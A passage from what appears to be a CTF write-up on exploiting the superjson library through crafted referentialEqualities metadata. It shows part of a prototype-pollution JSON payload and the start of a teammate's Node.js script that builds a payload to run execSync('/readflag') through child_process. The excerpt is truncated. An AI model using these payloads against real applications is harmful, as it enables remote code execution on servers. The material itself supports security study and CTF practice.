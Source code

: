 ```js
            "map"
         ]
      },
      "referentialEqualities":{
         "constructor.prototype":[
            "1"
         ],
         "find.constructor":[
            "1.get"
         ],
         "push":[
            "1.set",
            "1.delete"
         ],
         "pop":[
            "1.next",
            "0.keys",
            "1.charAt"
         ],
         "2.constructor.prototype":[
            "1.__proto__",
            "0.0"
         ],
         "0.2":[
            "1.toString"
         ],
         "":[
            [
               [
                  1
               ]
            ]
         ]
      }
   }
}
```

Compared to the above, my teammate pew's payload seems to be easier to understand:

``` js
const superjson = require('superjson').default;

Object.freeze(Object.prototype);

javascript = `console.log(process.mainModule.require('child_process').execSync("/readflag").toString())`

var json = JSON.stringify(
    {
        json: {
            real_error: {
                "message": "",
            },
            real_map: [],
            fake_map: [""],
            real_str: "xxd",
            real_arr: [],
            x: javascript,
            js: javascript,
        },
        meta: {
          referentialEqualities: {
            'real_error.toString': ['fake_map.toString'],
```